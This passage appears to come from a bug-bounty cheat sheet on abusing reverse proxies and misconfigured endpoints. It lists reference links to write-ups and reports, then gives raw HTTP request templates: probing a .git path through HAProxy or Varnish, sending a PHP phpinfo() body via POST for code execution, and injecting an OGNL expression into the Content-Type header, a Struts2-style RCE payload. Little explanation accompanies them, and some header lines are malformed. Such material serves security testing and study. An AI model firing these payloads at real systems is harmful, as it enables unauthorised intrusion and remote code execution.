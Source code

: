 ```http
Host: www.company.com
User-Agent: Mozilla/5.0
------------------------------------------
# If There Is Haproxy OR Varnish As Reverse Proxy
GET http://company.com/Endpoints-To-Proxy/.git HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
-------------------------------------
```

* [https://speakerdeck.com/greendog/reverse-proxies-and-inconsistency?slide=19](https://speakerdeck.com/greendog/reverse-proxies-and-inconsistency?slide=19)
* [https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/)
* [https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70](https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70)
* [https://www.youtube.com/watch?v=28xWcRegncw](https://www.youtube.com/watch?v=28xWcRegncw)
* [https://www.youtube.com/watch?v=gluSEBZpplQ](https://www.youtube.com/watch?v=gluSEBZpplQ)
* [https://hackerone.com/reports/260420](https://hackerone.com/reports/260420)
* [https://samcurry.net/hacking-starbucks/](https://samcurry.net/hacking-starbucks/)
* [https://blog.blackfan.ru/2018/01/pda-test.yandex.ru-file-reading.html](https://blog.blackfan.ru/2018/01/pda-test.yandex.ru-file-reading.html)
* [https://hackerone.com/reports/671857](https://hackerone.com/reports/671857)
* [https://hackerone.com/reports/680480](https://hackerone.com/reports/680480)
* [https://medium.com/@valeriyshevchenko/critical-vulnerabilities-in-pulse-secure-and-fortinet-ssl-vpns-in-the-wild-internet-3991ea9e6481](https://medium.com/@valeriyshevchenko/critical-vulnerabilities-in-pulse-secure-and-fortinet-ssl-vpns-in-the-wild-internet-3991ea9e6481)
* [https://www.youtube.com/watch?v=gluSEBZpplQ](https://www.youtube.com/watch?v=gluSEBZpplQ)

### RCE

* Try To Change Method To POST And Add Body e.g. To Get RCE

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Content-Type":"application/x-www-form-urlencoded
Origin: https://www.company.com
Connection: keep-alive
<?php phpinfo(); ?>
```

{% embed url="https://x.com/Wh11teW0lf/status/1252131536570286080" %}

* **RCE in Content-Type Header**

```http
Content-Type: %{#context['com.opensymphony.xwork2
.dispatcher.HttpServletResponse'].addHeader(Header,4*4)}.multip
art/form-data
```
